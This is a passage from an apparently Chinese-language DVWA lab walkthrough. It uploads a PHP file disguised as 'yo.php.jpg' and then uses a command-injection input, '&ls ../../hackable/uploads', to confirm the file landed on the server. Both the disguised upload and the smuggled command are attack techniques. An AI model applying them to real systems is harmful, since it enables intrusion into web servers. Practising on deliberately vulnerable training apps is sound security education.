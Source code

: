 ```
yo.php.jpg
```

![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%2034.png)

```
../../hackable/uploads/yo.php.jpg succesfully uploaded!
```

回到 command injection 的頁面，確認檔案有上傳成功

```
&ls ../../hackable/uploads
```

![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%2035.png)
